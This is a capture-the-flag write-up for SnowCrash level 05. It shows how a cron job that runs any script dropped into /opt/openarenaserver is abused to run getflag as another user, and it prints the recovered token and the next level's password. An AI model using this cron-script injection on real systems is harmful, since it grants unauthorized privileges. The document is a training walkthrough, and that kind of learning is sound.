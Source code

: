 # Level 05

```bash
level05@10.11.200.163's password:
You have new mail.
level05@SnowCrash:~$
```

When switching to user level05, we are greeted by a notification saying we received a mail

```bash
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Inspecting the mail file gives us a cronjob running every 2 minutes, executing a binary located in `/usr/sbin`

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

When inspecting the executed file, we can see it executes the content of every file located in `/opt/openarenaserver/` in a new `bash` shell, then removes the file

### Exploit

The goal will be to make the cronjob execute `getflag`, with the content of the output in a new file for us to retrieve the flag

We can create a temporary file with `mktemp` and allow the cronjob to write to it with a `chmod`

```bash
level05@SnowCrash:~$ mktemp
/tmp/tmp.8ir7nD1H2g

level05@SnowCrash:~$ chmod 777 /tmp/tmp.8ir7nD1H2g
```

Then we create a new script file in `/opt/openarenaserver/` with the command we want the cronjob to execute, in our case, `getflag` redirected to our temporary file

```bash
level05@SnowCrash:~$ echo "getflag > /tmp/tmp.8ir7nD1H2g" > /opt/openarenaserver/exploit.sh

level05@SnowCrash:~$ chmod 777 /opt/openarenaserver/exploit.sh  
```

Wait some time . . .

```bash
level05@SnowCrash:~$ cat /tmp/tmp.8ir7nD1H2g
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

### Goto level 06

```bash
level05@SnowCrash:~$ su level06
Password:
<<< 'viuaaale9huek52boumoomioc'

level06@SnowCrash:~$
```

